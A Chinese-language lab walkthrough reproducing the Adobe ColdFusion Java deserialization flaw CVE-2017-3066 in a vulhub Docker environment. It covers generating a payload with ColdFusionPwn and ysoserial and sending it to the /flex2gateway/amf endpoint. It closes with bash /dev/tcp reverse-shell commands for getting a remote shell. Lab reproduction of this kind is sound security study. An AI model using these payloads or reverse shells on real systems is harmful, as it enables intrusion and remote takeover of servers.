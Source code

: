 ### Adobe ColdFusion 反序列化漏洞（CVE-2017-3066）



### 漏洞原理

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe  ColdFusion中存在java反序列化漏洞。攻击者可利用该漏洞在受影响应用程序的上下文中执行任意代码或造成拒绝服务。以下版本受到影响：Adobe ColdFusion (2016 release) Update 3及之前的版本，ColdFusion 11 Update  11及之前的版本，ColdFusion 10 Update 22及之前的版本。

参考链接：

- https://codewhitesec.blogspot.com.au/2018/03/exploiting-adobe-coldfusion.html

## 复现漏洞

### 启动环境

进入路径为

```
cd /root/vulhub/coldfusion/CVE-2017-3066
1
```

搭建及运行漏洞环境：

```
docker-compose build && docker-compose up -d
1
```

此本安装环境需要大概1G+的数据下载，网络不好的起来走动走动吧:)
![1](C:\Users\litbaizhang\Desktop\20201222\Adobe ColdFusion\Adobe ColdFusion反序列化漏洞CVE-2017-3066\1.png)
 环境启动成功后，访问`http://your-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。
![2](C:\Users\litbaizhang\Desktop\20201222\Adobe ColdFusion\Adobe ColdFusion反序列化漏洞CVE-2017-3066\2.png)

## 漏洞复现

### 生成POC

使用[ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn)工具来生成POC。
 [下载ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn/releases/download/0.0.1/ColdFusionPwn-0.0.1-SNAPSHOT-all.jar)
 [下载ysoserial](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
 【注意】下载的jar包可能因为时间不同，而更新，包名也就不同。注意将命令中的包名，替换为你下载时候的名字

```
java -cp ColdFusionPwn.jar:ysoserial.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/CVE-2017-3066_is_success' poc.ser
1
```

【再注意】上面的命令在Win10下我没有执行成功，错误提示为`错误: 找不到或无法加载主类 com.codewhitesec.coldfusionpwn.ColdFusionPwner`。在Kali成功生成了?

### 发送POC

生成poc.ser文件后，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为`application/x-amf`：

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
1234567891011
```

![3](C:\Users\litbaizhang\Desktop\20201222\Adobe ColdFusion\Adobe ColdFusion反序列化漏洞CVE-2017-3066\3.png)

### 发送POC内容

由于编码问题，如果直接从Notepad++/Notepad里面复制粘贴为body部分，是不成功的，即使返回的状态码是200
![4](C:\Users\litbaizhang\Desktop\20201222\Adobe ColdFusion\Adobe ColdFusion反序列化漏洞CVE-2017-3066\4.png)
 正确发送方式为：
 右击选择**Paste From File**，上传**poc.cer**文件
 ![5](C:\Users\litbaizhang\Desktop\20201222\Adobe ColdFusion\Adobe ColdFusion反序列化漏洞CVE-2017-3066\5.png)
 【感谢豆老师?的纠错，以及科普编码问题】?
 再到`Raw`界面添加HTTP头部，如果成功，并且打算以后还需要用的话，右击选择`Copy to File`保存
![6](C:\Users\litbaizhang\Desktop\20201222\Adobe ColdFusion\Adobe ColdFusion反序列化漏洞CVE-2017-3066\6.png)

#### 检验POC

##### 进入容器

###### 通过DockerID进入容器

```
docker exec -it 容器ID /bin/bash  
1
```

###### 查看容器ID

```
docker ps
1
```

![7](C:\Users\litbaizhang\Desktop\20201222\Adobe ColdFusion\Adobe ColdFusion反序列化漏洞CVE-2017-3066\7.png)

###### 通过Docker名字进入容器

```
docker-compose exec 容器名字 bash
1
```

比如本次环境中是：

```
docker-compose exec coldfusion bash
1
```

##### 查看/tmp/

```
ls /tmp/
1
```

发现`/tmp/success`已成功创建：
![8](C:\Users\litbaizhang\Desktop\20201222\Adobe ColdFusion\Adobe ColdFusion反序列化漏洞CVE-2017-3066\8.png)
 将POC改成[反弹命令](http://jackson.thuraisamy.me/runtime-exec-payloads.html)，成功拿到shell：
![9](C:\Users\litbaizhang\Desktop\20201222\Adobe ColdFusion\Adobe ColdFusion反序列化漏洞CVE-2017-3066\9.png)

### 反弹Shell

#### 格式

```
bash -i >& /dev/tcp/ip/port 0>&1
1
```

#### 例子

比如监听192.168.236.138的333端口

```
bash -i >& /dev/tcp/192.168.236.138/333 0>&1
```